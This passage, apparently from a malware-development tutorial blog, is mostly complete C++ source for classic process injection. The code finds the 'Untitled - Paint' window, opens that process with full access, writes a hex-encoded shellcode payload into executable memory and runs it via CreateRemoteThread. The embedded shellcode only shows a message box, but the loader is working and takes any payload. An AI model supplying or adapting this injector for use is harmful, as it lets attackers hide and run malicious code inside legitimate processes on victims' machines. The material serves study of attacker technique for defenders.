 ### Practical example

The flow is this technique is simple. Let's go to investigate source code:

```cpp
/*
 * hack.cpp - classic process injection via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
  
  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
```